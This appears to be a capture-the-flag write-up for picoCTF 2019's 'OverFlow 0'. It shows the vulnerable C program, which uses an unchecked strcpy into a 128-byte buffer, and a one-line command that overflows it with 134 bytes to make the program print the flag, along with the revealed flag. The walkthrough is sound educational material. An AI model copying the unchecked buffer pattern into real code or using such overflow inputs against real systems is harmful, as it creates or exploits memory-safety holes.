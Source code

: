# OverFlow 0 - Points: 100

## Problem

> This should be easy. Overflow the correct buffer in this [program](https://2019shell1.picoctf.com/static/1730bdc8ccd557c8ff20d1c28a5c3dbe/vuln) and get a flag. Its also found in /problems/overflow-0_4_e130f4df1710865981d50f778a8059f7 on the shell server. [Source](https://2019shell1.picoctf.com/static/1730bdc8ccd557c8ff20d1c28a5c3dbe/vuln.c).

## Hints

> Find a way to trigger the flag to print

> If you try to do the math by hand, maybe try and add a few more characters. Sometimes there are things you aren't expecting.

## Overview

There's a source code written in C and a program to run. Looking at the tittle, we pretty much know this challenge is about buffer overflow, one of a really common program vulnerabilities.

## Solutions

Let's look at the source code first

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  fprintf(stderr, "%s\n", flag);
  fflush(stderr);
  exit(1);
}

void vuln(char *input){
  char buf[128];
  strcpy(buf, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  
  if (argc > 1) {
    vuln(argv[1]);
    printf("You entered: %s", argv[1]);
  }
  else
    printf("Please enter an argument next time\n");
  return 0;
}
```
Basically, the program tries to open a text file called flag.txt which I believe is on their shell server.

However we can try pwning the binary locally first creating a file flag.txt on your system and add some contents into it. 

Anyways, I'll just do it on the shell server 

```
$ ./vuln
Please enter an argument next time
```

Now we try it with an argument
```
$ ./vuln yougay
You entered: yougay
```
As you can see in the source code, ```vuln()``` doesn't have any boundary checking, so even though there is 128 bytes space available, its ```strcpy()``` will keep inserting more and more bytes into ```buf``` and it's a very basic buffer overflow.

I'll try to leverage and exploit this vulnerability. 

After a few tries I found that it needed 6 more bytes to leak out the flag.
```
$ ./vuln $(python -c "print('A'*134)")
picoCTF{3asY_P3a5y2f814ddc}
```

